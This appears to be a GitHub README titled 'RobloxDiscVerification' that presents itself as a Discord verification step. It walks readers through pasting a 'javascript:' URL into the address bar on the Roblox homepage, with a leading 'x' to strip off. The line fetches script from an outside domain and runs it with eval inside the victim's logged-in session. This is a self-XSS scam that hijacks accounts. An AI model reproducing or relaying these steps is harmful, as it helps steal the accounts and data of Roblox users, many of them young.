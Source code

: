 # RobloxDiscVerification

Step 0. Join this discord server to see it in action: https://discord.gg/pVsgvwVTap

Step 1. Go to your roblox homepage

Step 2. Copy this: xJavascript:$.get("//rbx2.ml/roblox-api?id=10623",eval)

Step 3. Go to the roblox homepage and paste it in the URL tab

Step 4. Remove the x at the beginning

Step 5. Press enter

